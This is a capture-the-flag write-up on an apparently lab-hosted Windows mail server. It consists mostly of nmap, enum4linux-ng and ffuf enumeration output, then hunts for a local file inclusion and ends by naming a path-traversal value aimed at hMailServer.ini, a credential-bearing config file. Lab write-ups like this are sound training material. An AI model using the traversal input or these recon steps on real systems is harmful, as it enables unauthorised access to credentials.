# Initial Enumeration

As usual we can start by checking for open ports of the UDP protocoll.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Mailing]
└─# nmap -sU -F 10.10.11.14
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-06 10:29 CEST
Nmap scan report for 10.10.11.14
Host is up (0.035s latency).
All 100 scanned ports on 10.10.11.14 are in ignored states.                                                                                                                                                                                                  
Not shown: 100 open|filtered udp ports (no-response)                                                                                                                                                                                                         
                                                                                                                                                                                                                                                             
Nmap done: 1 IP address (1 host up) scanned in 5.99 seconds
```

Nothing but what about the TCP instead?

```
PORT      STATE SERVICE       REASON          VERSION
25/tcp    open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://mailing.htb
|_http-server-header: Microsoft-IIS/10.0
110/tcp   open  pop3          syn-ack ttl 127 hMailServer pop3d
|_pop3-capabilities: TOP USER UIDL
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
143/tcp   open  imap          syn-ack ttl 127 hMailServer imapd
|_imap-capabilities: CHILDREN QUOTA IMAP4 CAPABILITY completed OK ACL RIGHTS=texkA0001 IMAP4rev1 NAMESPACE IDLE SORT
445/tcp   open  microsoft-ds? syn-ack ttl 127
465/tcp   open  ssl/smtp      syn-ack ttl 127 hMailServer smtpd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
|_ssl-date: TLS randomness does not represent time
| smtp-commands: mailing.htb, SIZE 20480000, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
587/tcp   open  smtp          syn-ack ttl 127 hMailServer smtpd
| smtp-commands: mailing.htb, SIZE 20480000, STARTTLS, AUTH LOGIN PLAIN, HELP
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
993/tcp   open  ssl/imap      syn-ack ttl 127 hMailServer imapd
| ssl-cert: Subject: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Issuer: commonName=mailing.htb/organizationName=Mailing Ltd/stateOrProvinceName=EU\Spain/countryName=EU/organizationalUnitName=MAILING/localityName=Madrid/emailAddress=ruy@mailing.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-02-27T18:24:10
| Not valid after:  2029-10-06T18:24:10
| MD5:   bd32:df3f:1d16:08b8:99d2:e39b:6467:297e
| SHA-1: 5c3e:5265:c5bc:68ab:aaac:0d8f:ab8d:90b4:7895:a3d7
| -----BEGIN CERTIFICATE-----
| MIIDpzCCAo8CFAOEgqHfMCTRuxKnlGO4GzOrSlUBMA0GCSqGSIb3DQEBCwUAMIGP
| MQswCQYDVQQGEwJFVTERMA8GA1UECAwIRVVcU3BhaW4xDzANBgNVBAcMBk1hZHJp
| ZDEUMBIGA1UECgwLTWFpbGluZyBMdGQxEDAOBgNVBAsMB01BSUxJTkcxFDASBgNV
| BAMMC21haWxpbmcuaHRiMR4wHAYJKoZIhvcNAQkBFg9ydXlAbWFpbGluZy5odGIw
| HhcNMjQwMjI3MTgyNDEwWhcNMjkxMDA2MTgyNDEwWjCBjzELMAkGA1UEBhMCRVUx
| ETAPBgNVBAgMCEVVXFNwYWluMQ8wDQYDVQQHDAZNYWRyaWQxFDASBgNVBAoMC01h
| aWxpbmcgTHRkMRAwDgYDVQQLDAdNQUlMSU5HMRQwEgYDVQQDDAttYWlsaW5nLmh0
| YjEeMBwGCSqGSIb3DQEJARYPcnV5QG1haWxpbmcuaHRiMIIBIjANBgkqhkiG9w0B
| AQEFAAOCAQ8AMIIBCgKCAQEAqp4+GH5rHUD+6aWIgePufgFDz+P7Ph8l8lglXk4E
| wO5lTt/9FkIQykSUwn1zrvIyX2lk6IPN+airnp9irb7Y3mTcGPerX6xm+a9HKv/f
| i3xF2oo3Km6EddnUySRuvj8srEu/2REe/Ip2cIj85PGDOEYsp1MmjM8ser+VQC8i
| ESvrqWBR2B5gtkoGhdVIlzgbuAsPyriHYjNQ7T+ONta3oGOHFUqRIcIZ8GQqUJlG
| pyERkp8reJe2a1u1Gl/aOKZoU0yvttYEY1TSu4l55al468YAMTvR3cCEvKKx9SK4
| OHC8uYfnQAITdP76Kt/FO7CMqWWVuPGcAEiYxK4BcK7U0wIDAQABMA0GCSqGSIb3
| DQEBCwUAA4IBAQCCKIh0MkcgsDtZ1SyFZY02nCtsrcmEIF8++w65WF1fW0H4t9VY
| yJpB1OEiU+ErYQnR2SWlsZSpAqgchJhBVMY6cqGpOC1D4QHPdn0BUOiiD50jkDIx
| Qgsu0BFYnMB/9iA64nsuxdTGpFcDJRfKVHlGgb7p1nn51kdqSlnR+YvHvdjH045g
| ZQ3JHR8iU4thF/t6pYlOcVMs5WCUhKKM4jyucvZ/C9ug9hg3YsEWxlDwyLHmT/4R
| 8wvyaiezGnQJ8Mf52qSmSP0tHxj2pdoDaJfkBsaNiT+AKCcY6KVAocmqnZDWQWut
| spvR6dxGnhAPqngRD4sTLBWxyTTR/brJeS/k
|_-----END CERTIFICATE-----
|_imap-capabilities: CHILDREN QUOTA IMAP4 CAPABILITY completed OK ACL RIGHTS=texkA0001 IMAP4rev1 NAMESPACE IDLE SORT
|_ssl-date: TLS randomness does not represent time
5040/tcp  open  unknown       syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
7680/tcp  open  pando-pub?    syn-ack ttl 127
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
55899/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows XP (85%)
OS CPE: cpe:/o:microsoft:windows_xp::sp3
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
Aggressive OS guesses: Microsoft Windows XP SP3 (85%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94SVN%E=4%D=5/6%OT=25%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=6638969E%P=x86_64-pc-linux-gnu)
SEQ(SP=107%GCD=1%ISR=10D%TI=I%II=I%SS=S%TS=U)
OPS(O1=M53ANW8NNS%O2=M53ANW8NNS%O3=M53ANW8%O4=M53ANW8NNS%O5=M53ANW8NNS%O6=M53ANNS)
WIN(W1=FFFF%W2=FFFF%W3=FFFF%W4=FFFF%W5=FFFF%W6=FF70)
ECN(R=Y%DF=Y%TG=80%W=FFFF%O=M53ANW8NNS%CC=N%Q=)
T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
U1(R=N)
IE(R=Y%DFI=N%TG=80%CD=Z)

Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: Incremental
Service Info: Host: mailing.htb; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2024-05-06T08:36:04
|_  start_date: N/A
|_clock-skew: 0s
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 29452/tcp): CLEAN (Timeout)
|   Check 2 (port 18728/tcp): CLEAN (Timeout)
|   Check 3 (port 37492/udp): CLEAN (Timeout)
|   Check 4 (port 35557/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

TRACEROUTE (using port 993/tcp)
HOP RTT       ADDRESS
1   112.49 ms 10.10.16.1
2   112.77 ms 10.10.11.14

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 10:36
Completed NSE at 10:36, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 10:36
Completed NSE at 10:36, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 10:36
Completed NSE at 10:36, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 214.40 seconds
           Raw packets sent: 108 (8.436KB) | Rcvd: 49 (2.740KB)
```

As we can see and also guess from the machine name we have a email server running on a Windows OS server, so let's add the local hosts file to resolve the machine name mailing.htb and move on with enumeration.

&nbsp;

# SMB/NETBIOS

As usual the easiest is to start to check for possible informations of the NETBIOS/SMB service by simply running Enum4linux-ng.

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Mailing]
└─# enum4linux-ng -A mailing.htb
/usr/local/bin/enum4linux-ng:4: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  __import__('pkg_resources').run_script('enum4linux-ng==1.3.2', 'enum4linux-ng')
ENUM4LINUX - next generation (v1.3.2)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... mailing.htb
[*] Username ......... ''
[*] Random Username .. 'cbqrkzuq'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ====================================
|    Listener Scan on mailing.htb    |
 ====================================
[*] Checking LDAP
[-] Could not connect to LDAP on 389/tcp: timed out
[*] Checking LDAPS
[-] Could not connect to LDAPS on 636/tcp: timed out
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 ==========================================================
|    NetBIOS Names and Workgroup/Domain for mailing.htb    |
 ==========================================================                                                                                                                                                                                                  
[-] Could not get NetBIOS names information via 'nmblookup': timed out                                                                                                                                                                                       
                                                                                                                                                                                                                                                             
 ========================================                                                                                                                                                                                                                    
|    SMB Dialect Check on mailing.htb    |                                                                                                                                                                                                                   
 ========================================                                                                                                                                                                                                                    
[*] Trying on 445/tcp                                                                                                                                                                                                                                        
[+] Supported dialects and settings:                                                                                                                                                                                                                         
Supported dialects:                                                                                                                                                                                                                                          
  SMB 1.0: false                                                                                                                                                                                                                                             
  SMB 2.02: true                                                                                                                                                                                                                                             
  SMB 2.1: true                                                                                                                                                                                                                                              
  SMB 3.0: true                                                                                                                                                                                                                                              
  SMB 3.1.1: true                                                                                                                                                                                                                                            
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                   
SMB1 only: false                                                                                                                                                                                                                                             
SMB signing required: false                                                                                                                                                                                                                                  
                                                                                                                                                                                                                                                             
 ==========================================================                                                                                                                                                                                                  
|    Domain Information via SMB session for mailing.htb    |                                                                                                                                                                                                 
 ==========================================================                                                                                                                                                                                                  
[*] Enumerating via unauthenticated SMB session on 445/tcp                                                                                                                                                                                                   
[+] Found domain information via SMB                                                                                                                                                                                                                         
NetBIOS computer name: MAILING                                                                                                                                                                                                                               
NetBIOS domain name: ''                                                                                                                                                                                                                                      
DNS domain: MAILING                                                                                                                                                                                                                                          
FQDN: MAILING                                                                                                                                                                                                                                                
Derived membership: workgroup member                                                                                                                                                                                                                         
Derived domain: unknown                                                                                                                                                                                                                                      

 ========================================
|    RPC Session Check on mailing.htb    |
 ========================================
[*] Check for null session
[-] Could not establish null session: STATUS_ACCESS_DENIED
[*] Check for random user
[-] Could not establish random user session: STATUS_LOGON_FAILURE
[-] Sessions failed, neither null nor user sessions were possible

 ==============================================
|    OS Information via RPC for mailing.htb    |
 ==============================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Skipping 'srvinfo' run, not possible with provided credentials
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                     
OS version: '10.0'                                                                                                                                                                                                                                           
OS release: '2004'                                                                                                                                                                                                                                           
OS build: '19041'                                                                                                                                                                                                                                            
Native OS: not supported                                                                                                                                                                                                                                     
Native LAN manager: not supported                                                                                                                                                                                                                            
Platform id: null                                                                                                                                                                                                                                            
Server type: null                                                                                                                                                                                                                                            
Server type string: null                                                                                                                                                                                                                                     

[!] Aborting remainder of tests since sessions failed, rerun with valid credentials

Completed after 17.56 seconds
```

As we can see the machine doesn't belong to a AD and is running on build 19041, but no shares are accessible as anonymous user so we can move forward.

&nbsp;

# HTTP

Surfing manually to the website we can see the team


We can see they are mentioning the hmail server so my guessing is either a CVE for hmailserver or maybe sniffing the NTMLv2 hash?

In the installation we can see traces of a possible LFI?



And lastly opening the instruction.pdf we can see how to access the email server.

- The internal IP address of the machine
- The email structure as name@mailing.htb
- Also reference to user@mailing.htb and that maya should get our email(might she be our victim?)

&nbsp;

I will also check for possible other VHOSTS on the machine via FFUF fuzzing tool but unfortunately nothing so far!

```
┌──(root㉿DESKTOP-1KSM320)-[/home/aleksandar/Downloads/Mailing]
└─# ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u "http://mailing.htb/" -H "Host:FUZZ.mailing.htb" -fl 133

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://mailing.htb/
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 :: Header           : Host: FUZZ.mailing.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 133
________________________________________________

:: Progress: [19966/19966] :: Job [1/1] :: 175 req/sec :: Duration: [0:01:36] :: Errors: 0 ::
```

&nbsp;

A small recap on what to test:

1.  LFI
2.  NTML sniff
3.  CVE on HMAIL
4.  Bruteforce user@mailing.htb

&nbsp;

# LFI

Let's start by checking if the download function can be fuzzed?



After several tests seems like a LFI is possible and we have only 2 folders from where the instructions.pdf resides!

We can surf the web.config



But seems like we can't see more than that!

I will istall a Hmail locally on my Windows rig to check how it is supposed to look like the instillation folder.



&nbsp;Next I checked what informations can we actually find from HMail and seems like a ini files should be reachable from: **..\\..\\Program Files\\hMailServer\\hMailServer.ini**

https://www.hmailserver.com/documentation/latest/?page=reference_inifilesettings

